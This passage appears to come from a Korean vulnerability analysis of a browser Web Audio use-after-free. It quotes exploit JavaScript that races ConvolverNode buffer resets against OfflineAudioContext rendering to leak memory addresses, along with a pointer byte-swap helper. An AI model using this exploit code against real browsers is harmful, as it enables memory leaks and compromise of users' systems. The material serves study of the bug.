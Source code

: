 ```jsx
                			evt = null;
 
                			bufferSource.disconnect();
                			scriptNode.disconnect();
                			convolver.disconnect();
 
                			setTimeout(function() {
                     			doneCb(leakedAddr);
                			}, 1);
 
                			return;
            			}
        		}
    		}
	};
 
	audioCtx.startRendering().then(function(buffer) {
    		buffer = null;
 
    		if (!finished) {
        	 	finished = true;
       	  	triggerUaF(doneCb);
    		}
	});
 
	while (!finished) {
    		convolver.buffer = null;
    		convolver.buffer = channelBuffer;
    		await later(100); // wait 100 millseconds
	}
};
```

이후 Reverb component에 필요한 객체들을 생성하고 OfflineAudioContext와 두개의 ConvolverNode를 생성하여 UAF를 트리거합니다. 

```jsx
function later(delay) {
	return new Promise(resolve => setTimeout(resolve, delay));
}
```

위 함수를 재귀적으로 호출하여 오디오 채널 버퍼를 0으로 채우고 렌더링을 시작함과 동시 ConvolverNode버퍼를 재설정해서 취약점을 트리거합니다. 여기서 later 함수는 sleep 함수처럼 현재 스레드를 일시 중지하는 역할을 합니다.

실행 중에 exploit은 오디오 채널 버퍼에 0이 아닌 다른값이 있는지 체크해서 만약 다른값이 있다면 UAF가 트리거 되었다고 판단합니다. 이렇게 UAF를 트리거했으면 버퍼에 릭된 값들이 존재합니다.

```jsx
function byteSwapBigInt(x) {
	let result = BigInt(0);
	let tmp = x;
 
	for (let i = 0; i < 8; i++) {
    		result = result << BigInt(8);
    		result += tmp & BigInt(0xFF);
    		tmp = tmp >> BigInt(8);
	}
 
	return result;
}
```
